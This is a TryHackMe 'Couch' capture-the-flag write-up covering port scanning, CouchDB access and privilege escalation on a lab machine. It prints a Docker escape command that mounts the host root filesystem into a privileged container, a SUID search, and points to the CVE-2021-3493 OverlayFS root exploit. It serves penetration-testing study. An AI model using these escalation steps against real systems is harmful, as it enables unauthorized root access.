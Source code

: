 # Couch - TryHackMe Challenge Writeup

Hatami Ra'is Bukhari (Althemier)
[Challenge link](https://tryhackme.com/room/couch)

## Scanning

Nmap scan
```bash
nmap -sC -sV -oN nmap/result.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

For some reason the scan only show 1 port, even with tag `-A`, so lets try the other method which is `Rustscan`[[1]](https://github.com/RustScan/RustScan)

```bash
Open 10.10.75.191:22
Open 10.10.75.191:5984
```

Much better. `22` is SSH, then what is `5984`? Quick googling, it's for `CouchDB`.

Access `CouchDB` with typing this into your browser: [[2]](https://cloud.ibm.com/docs/Cloudant?topic=Cloudant-access-couchdb-cluster)
```
http://10.10.172.141:5984
```

Or with curl
```bash
curl 10.10.172.141:5984
```

Both method will give you respon where you get the version of the `CouchDB` as well as the machine OS

> What is path for the web administration tool for this database management system?

> What is path for list all databases in the web browser of the database management system?

You can get both answer with some googling, *explore the world*

Once you find out how to do web administrator `CouchDB`, you can find the credential to `SSH` to the machine

## Where is my flag

`user.txt` contain the first flag.

Escalate privileges however... its fun

You can do the casual check priv-esc like:
- `sudo -l`, you get the information that you dont have sudo privileges
- Eploring SUID with `find / -perm -4000 2>/dev/null` also found nothing
- Running `Linpeas` [[3]](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) aslo found nothing.

So, I found 2 method on how to priv esc ro root

### Docker

If you check the user home directory, there is a file called `.bash_history`. This file contain the information of history command type in terminal. So lets see what we have here
```bash
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
.
.
.
.
.
.
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

Docker command, huh. Lets try it
```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ #
```

Huh, we can access this container

Lets see what we have here, maybe we can find this `root.txt` with `find` [[4]](https://tryhackme.com/room/thefindcommand)
```bash
find / -type f -name root.txt
#Find any file start from root directory where the name is root.txt
#Once found, you can open it without permision needed.
cat /???/????/????.txt
```

### Kernel Exploited

Although the method above may have been the intended way, but why dont try other method

If we recall to we try to access `CouchDB` to browser we have the info that the OS run the database is Ubuntu version 16.04

There is one room in TryHackMe [[5]](https://tryhackme.com/room/overlayfs) explaining about CVE-2021-3493 [[6]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493).

TLDR, on some version of Ubuntu which the one we have right now has vulnerability on OverlayFS which allow local users to get root access. The user only need to compile a scripts and run it to gain instant root, pretty cool right?

You can pause what you currently doing and complete Overlayfs room [[5]](https://tryhackme.com/room/overlayfs) or read and apply what `Overlayfs` has to offer, once finish with `Couch` you can complete `Overlayfs`

